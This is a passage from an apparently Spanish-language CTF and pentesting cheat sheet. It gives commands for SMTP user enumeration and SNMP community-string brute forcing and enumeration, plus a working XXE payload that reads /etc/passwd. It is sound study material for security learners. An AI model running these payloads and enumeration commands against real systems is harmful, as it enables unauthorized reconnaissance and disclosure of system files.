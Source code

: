 *Si no sabemos que usuario puede existir en el sistema:"

`smtp-user-enum -M VRFY -U username_wordlist.txt -t <hostname>`

# XXE 

Un atacante puede intervenir su contenido para leer archivos del sistema.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

En la salida del procesamiento xml, en la entidad &xxe, aparecerá el *passwd* de la maquina victima.

# Unrestricted File Uploads

Esta vulnerabilidad ocurre en aplicaciones web donde existe la posibilidad de subir un archivo sin que sea comprobado por un sistema de seguridad que frene peligros potenciales. 

Le permite a un atacante subir archivos con código (scripts tales como .php o .aspx) y ejecutarlos en el mismo servidor. 


# SNMP Enumeration 

Generalmente corre sobre puertos UPD ( 161 ), nos puede permitir enumerar más de la cuenta a nivel de sistema. Para saber qué software corren, así como rutas, usuarios del sistema, puertos internos abiertos TCP/UDP, etc.

Lo primero que necesitamos saber es la *community string*, de normal general suele estar entre **public** o **private**

`onesixtyone -c dic.txt -i output.txt` # onesixtyone nos ayuda a obtener la community string con fuerza bruta.

Una vez obtenemos la *community string* </br>
<h5>note: La versión suele ser la 2c</h5>

`snmpbulkwalk -c [COMM_STRING] -v [VERSION] [IP] . `  # Enumeración de SNMP con snmpbulkwalk

`snmp-check [DIR_IP] -p [PORT] -c [COMM_STRING]` # Enumeración de SNMP con snmp-check
 
`nmap --script "snmp* and not snmp-brute" <target>` # Apoyo a las enumeraciones, script de nmap.

# WordPress

Este gestor de contenidos (CMS) suele ser un punto clave en los CTF, contiene un panel de login y pluggins que suelen ser vulnerables.

